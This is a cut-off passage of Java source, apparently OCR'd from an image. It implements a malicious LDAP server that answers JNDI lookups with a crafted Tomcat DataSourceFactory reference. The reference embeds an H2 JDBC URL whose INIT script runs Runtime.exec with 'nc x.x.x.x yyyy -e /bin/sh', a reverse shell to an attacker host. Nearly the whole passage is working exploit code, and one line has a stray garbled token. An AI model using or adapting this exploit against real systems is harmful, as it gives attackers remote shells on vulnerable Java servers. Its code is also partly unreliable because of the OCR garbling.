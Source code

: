 ```java
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor());
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry entry = new Entry(base);
            try {
                System.out.println("Send LDAP reference");
                entry.addAttribute("objectClass", "javaNamingReference");

                String url = "jdbc:h2:mem:memdb;TRACE_LEVEL_SYSTEM_OUT=3;" +
                        "INIT=CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \"test\"\\;}'\\;" +
                        "CALL EXEC ('nc x.x.x.x yyyy -e /bin/sh')\\;";

                Reference ref = new Reference("javax.sql.DataSource", "org.apache.tomcat.jdbc.pool.DataSourceFactory", null);
                ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
                ref.add(new StringRefAddr("url", url));
                ref.add(new StringRefAddr("initialSize", "1"));
                ref.add(new StringRefAddr("username", "sa"));
                encodeReference('#', ref, entry);

                result.sendSearchEntry(entry);Reference
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            } catch (Exception e) {
                e.printStackTrace();
            }
        }


        private void encodeReference(char separator, Reference ref, Entry attrs) {

            String s;

            if ((s = ref.getClassName()) != null) {
                attrs.addAttribute("javaClassName", s);
            }

            if ((s = ref.getFactoryClassName()) != null) {
                attrs.addAttribute("javaFactory", s);
            }

            if ((s = ref.getFactoryClassLocation()) != null) {
                attrs.addAttribute("javaCodeBase", s);
            }

            int count = ref.size();

            if (count > 0) {
```